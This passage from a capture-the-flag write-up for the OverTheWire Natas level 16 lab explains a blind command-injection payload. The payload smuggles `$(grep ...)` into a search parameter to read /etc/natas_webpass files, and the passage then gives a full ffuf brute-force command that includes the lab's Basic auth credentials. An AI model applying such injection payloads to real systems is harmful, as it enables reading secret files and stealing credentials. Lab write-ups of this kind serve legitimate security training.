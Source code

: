 Let's break down the payload: `Americanisms$(grep ^b /etc/natas_webpass/natas)`

We are using grep to lookout for words starting with `b`. If our password starts with the letter b, then the grep command will return the password prepended with the word `Americanisms` ( `Americanisms<grep_password>` ), but since our input is enclosed within quotes,&#x20;

<figure><img src=".gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

the resulting command will be,

```bash
grep -i \"Americanisms$(grep ^b /etc/natas_webpass/natas)\" dictionary.txt
```

where the string `Americanisms<grep_password>` will be searched in the `dictionary.txt`, which returns nothing since there is no string word like `Americanisms<grep_password>` in the `dictionary.txt`.

But if the password doesn't start with the character `b`, then the resulting string will be `Americanisms`, since the result of the grep command will be null as the password doesn't start with the character `b`, the string `Americanisms` will be searched in the `dictionary.txt`,  which will return the word `Americanisms`.

<figure><img src=".gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

Now we have a way to filter our response, i.e., if our response has the word `Americanisms`, then our password doesn't starts with the character we tried. If our response doesn't has the word `Americanisms`, then our password starts with the character we tried. Let's test this using ffuf:

```bash
ffuf -w alphanumeric.txt:FUZZ -u 'http://natas16.natas.labs.overthewire.org/?needle=Americanisms%24%28grep+%5EFUZZ+%2Fetc%2Fnatas_webpass%2Fnatas17%29&submit=Search' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7'    -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' -H 'Authorization: Basic bmF0YXMxNjpUUkQ3aVpyZDVnQVRqajlQa1BFdWFPbGZFakhxajMyVg==' -H 'Proxy-Connection: keep-alive' -H 'Referer: http://natas16.natas.labs.overthewire.org/?needle=%24%28grep+-E+%5Ea+%2Fetc%2Fnatas_webpass%2Fnatas17%29&submit=Search' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36' -fr "Americanisms"
```
